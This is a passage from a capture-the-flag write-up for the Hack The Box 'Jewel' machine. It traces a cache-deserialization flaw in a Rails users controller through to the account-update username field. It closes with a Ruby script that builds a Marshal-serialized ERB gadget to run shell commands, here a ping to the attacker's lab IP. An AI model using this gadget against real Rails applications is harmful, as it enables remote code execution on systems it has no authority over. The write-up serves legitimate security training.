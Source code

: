 Now, we just need to find the place to put it.

The flaw can be spotted in "users_controller.rb" file on line number 37.

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-16-HackTheBox-Jewel/2021-09-16-HackTheBox-Jewel%2002:07:11.png)

We need to find it on the webapp now.

## Port 8080

Now, to find the place to put our payload we start enum the port 8080

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-16-HackTheBox-Jewel/2021-09-16-HackTheBox-Jewel%2002:12:14.png)

How we already now that we need to get the `user_controllers.rb` it get easier to exploit

We create a normal user on the server to see all it's funcionalities

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-16-HackTheBox-Jewel/2021-09-16-HackTheBox-Jewel%2002:13:02.png)

We look at the vulnerable source code the following message

`Your account was updated successfully`

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-16-HackTheBox-Jewel/2021-09-16-HackTheBox-Jewel%2002:14:45.png)

And after we found the upadate function on the website, we can trigger it

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-16-HackTheBox-Jewel/2021-09-16-HackTheBox-Jewel%2002:15:32.png)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-16-HackTheBox-Jewel/2021-09-16-HackTheBox-Jewel%2002:15:21.png)

So, we just need to find the correct params to exploit it

```rb
@current_username = cache.fetch("username_#{session[:user_id]}", raw: true) {user_params[:username]}
```

Possibly it's on the Username param

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-16-HackTheBox-Jewel/2021-09-16-HackTheBox-Jewel%2002:17:28.png)

So we built our exploit to ping us

```rb
require 'erb'
require 'uri'
require 'active_support'
require 'active_support/core_ext'

code = '`ping -c 5 10.10.14.20`'

erb = ERB.allocate
erb.instance_variable_set :@src, code
erb.instance_variable_set :@filename, "1"
erb.instance_variable_set :@lineno, 1

payload = Marshal.dump(ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new erb, :result)

puts URI.encode_www_form(payload: payload)
```
